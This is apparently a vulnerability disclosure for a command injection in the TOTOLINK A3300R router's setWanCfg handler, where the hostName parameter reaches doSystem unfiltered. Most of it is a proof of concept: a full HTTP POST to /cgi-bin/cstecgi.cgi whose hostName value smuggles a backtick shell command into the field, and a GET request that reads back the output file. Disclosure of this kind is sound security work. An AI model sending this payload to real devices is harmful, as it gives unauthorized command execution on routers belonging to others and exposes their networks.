 #  A3300R setWanCfg Command Injection 

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](1.assets/image-20241210182241481.png)

**Description**

The `hostName` parameter is vulnerable to command injection when processing the `setWanCfg` request.

**Analyse**

The function `sub_42247C` processes the `setWanCfg` request, retrieves the `hostName` parameter from the request body, and passes it to the `doSystem` function without filtering.



![image-20241210184004111](1.assets/image-20241210184004111.png)

**POC**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 207
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"hostName":"TOTOLINK;`id>/web/1.txt`;","dhcpMtu":"1500","proto":1,"dnsMode":"0","ttlWay":"1","lcpEchoEnable":"1","option60Enable":"0","clone":"0","cloneMac":"40:EE:15:D4:88:6D","topicurl":"setWanCfg"}
```

![image-20241210182710221](1.assets/image-20241210182710221.png)

```
GET /1.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241210182941051](1.assets/image-20241210182941051.png)

